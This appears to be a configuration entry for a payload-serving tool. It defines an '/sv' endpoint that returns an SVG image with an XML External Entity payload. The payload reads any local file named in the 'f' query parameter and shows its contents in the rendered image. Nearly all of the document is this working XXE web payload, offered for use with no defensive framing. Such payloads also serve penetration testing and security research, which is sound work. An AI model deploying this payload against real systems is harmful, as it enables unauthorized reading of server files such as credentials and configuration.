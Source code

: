 ```yaml
---
title: XXE SVG Request Params
description: Returns an SVG payload with XXE to get files
weight: 1
pattern: /sv$
is_final: true
data:
  headers:
    Content-Type: image/svg+xml
    body: |
      <?xml version="1.0" standalone="yes"?>
      <!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file://{{.GET_f}}" > ]>
      <svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
      <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>
      </svg>

---
```


### /sv

attempts to get whatever files is supplied via the `f` query parameter
